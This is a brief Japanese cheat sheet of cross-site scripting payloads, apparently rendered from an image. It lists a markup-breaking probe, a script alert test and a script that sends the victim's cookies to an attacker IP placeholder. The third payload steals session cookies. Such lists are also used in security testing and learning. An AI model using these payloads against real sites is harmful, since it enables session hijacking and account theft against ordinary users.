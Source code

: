 # XSS

* XSS

1. `'>"><hr>`を使用して水平線を表示
2. `<script>alert(1)</script>`でアラート表示
3. `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
